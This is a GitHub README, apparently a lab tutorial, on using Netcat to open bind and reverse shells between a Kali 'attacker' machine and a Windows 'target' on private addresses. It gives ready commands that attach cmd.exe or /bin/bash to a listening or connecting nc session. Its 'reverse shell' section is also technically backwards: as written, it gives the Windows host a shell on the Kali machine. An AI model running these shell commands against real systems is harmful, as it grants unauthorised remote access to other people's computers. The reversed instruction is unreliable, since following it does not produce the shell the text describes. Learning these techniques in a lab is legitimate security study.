


# Binding-Shell-and-reverse-Shell-with-Netcat
Let's see how to Binding Shell and reverse Shell with Netcat
Netcat is a command-line utility that reads and writes data across network connections, using the TCP or UDP protocols. It is also known as “the Swiss Army knife of TCP/IP networks” because it can perform many functions such as port scanning, file transfer, chat, and HTTP request. Netcat can operate in both server and client modes.

## Netcat
connect to somewhere:   nc [-options] hostname port[s] [ports] ... 
listen for inbound:     nc -l -p port [-options] [hostname] [port]

### options:
        -c shell commands       as `-e'; use /bin/sh to exec [dangerous!!]
        -e filename             program to exec after connect [dangerous!!]
        -b                      allow broadcasts
        -g gateway              source-routing hop point[s], up to 8
        -G num                  source-routing pointer: 4, 8, 12, ...
        -h                      this cruft
        -i secs                 delay interval for lines sent, ports scanned
        -k                      set keepalive option on socket
        -l                      listen mode, for inbound connects
        -n                      numeric-only IP addresses, no DNS
        -o file                 hex dump of traffic
        -p port                 local port number
        -r                      randomize local and remote ports
        -q secs                 quit after EOF on stdin and delay of secs
        -s addr                 local source address
        -T tos                  set Type Of Service
        -t                      answer TELNET negotiation
        -u                      UDP mode
        -v                      verbose [use twice to be more verbose]
        -w secs                 timeout for connects and final net reads
        -C                      Send CRLF as line-ending
        -z                      zero-I/O mode [used for scanning]
port numbers can be individual or ranges: lo-hi [inclusive];
hyphens in port names must be backslash escaped (e.g. 'ftp\-data').

## Trasferring files
Follow my repository (https://github.com/SavioFengGit/Trasferring-Malicious-Payload-MSFvenom-to-the-Target-System) to transfer the file from the path /usr/share/windows-binaries/nc.exe to the Target(Windows).  
**Windows Target ip**:10.3.27.30  
**Kali Attacker**:10.10.9.3 

## Bind a Shell 
 - nc.exe -nvlp 1234 -e cmd.exe (Windows in listening) 
 
We can now connect to the Target system from the Kali Linux system by running the following command: 
 - nc -nv 10.3.27.30 1234 (connect to the target)
 - systeminfo (check that we are into the Windows Machine) 
 

## Bind a reverse Shell
 - nc -nvlp 1234 -e /bin/bash (from Kali)
 - nc.exe -nv 10.10.9.3 1234 (from Windows Target)

#Author
<b>Xiao Li Savio Feng</b>
